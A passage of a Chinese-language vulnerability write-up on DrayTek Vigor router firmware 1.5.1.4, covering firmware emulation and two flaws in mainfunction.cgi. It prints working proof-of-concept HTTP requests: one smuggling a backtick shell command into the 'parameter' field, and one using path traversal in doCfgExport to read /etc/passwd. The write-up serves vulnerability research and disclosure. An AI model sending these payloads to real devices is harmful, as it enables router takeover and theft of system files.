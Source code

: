 ```
mount -o bind /dev ./ubifs-root/dev
mount -o bind /proc ./ubifs-root/proc

ssh root@192.168.10.2
chroot squashfs-root /bin/sh
接着启动web服务成功，但未找到vpn全部启动脚本，仅搭建http服务没有任何意义

```  
  
  
  
##  漏洞   
### 最新版本漏洞，疑似CVE-2023-24229  
#### 版本要求 1.5.1.4，作者已删除poc,根据谷歌镜像获得  
```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 57
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: SESSION_ID_VIGOR=
Connection: close

action=commandTable&command=14&parameter=`touch test.txt`

```  
### 最新版本漏洞，CVE-2023-1009  
#### 版本要求  
  
v1.5.1.4  
  
根据poc直接在action中找方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kEgicicM5SiaCd8VHxn02fwlYWd2d6eJ6wicoPDDumKM3IKcM8sI0A7spu2wdGafzW6SUyHKZ4g2ILliazH89ichF7bQ/640?wx_fmt=png "")  
  
对value写入v6缓冲区和/tmp/拼接未对字符串进行任何处理，任意文件读取  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kEgicicM5SiaCd8VHxn02fwlYWd2d6eJ6wicj8Iibjb78QAaTMEpU6subJPpfYB0WZbM9ymHEmdmM2ZwXZpULF3VAIw/640?wx_fmt=png "")  
  
  
sub_11B88为向keyword_object.cfg写配置，我们不进入循环，意义不大  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kEgicicM5SiaCd8VHxn02fwlYWd2d6eJ6wic8KJicUf4FGMVqLD73zp3uqDqwh2kZSHPcD5KgDiccB9yJu2Wkd7FJTiaw/640?wx_fmt=png "")  
  
  
https://github.com/xxy1126/Vuln/blob/main/Draytek/1.md  
```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxxxxxxx
Content-Length: 61
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: xxxxxxxx
Referer: xxxxxxxxxx
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: SESSION_ID_VIGOR=7:26EB81E4EA6DC603661320EBD1C938DC
Connection: close

action=doCfgExport&option=/../etc/passwd-&rtick=1663484341535
```